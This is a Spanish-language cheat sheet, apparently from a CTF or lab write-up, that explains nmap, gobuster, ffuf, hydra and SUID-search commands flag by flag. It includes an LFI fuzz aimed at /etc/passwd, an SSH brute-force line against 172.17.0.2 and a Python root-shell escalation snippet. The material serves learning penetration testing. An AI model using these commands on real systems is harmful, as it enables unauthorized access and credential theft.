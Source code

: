 ## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js
    -w: diccionario.
    -x: extensiones que queremos probar.
```

### 🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"
    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```
--
### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```
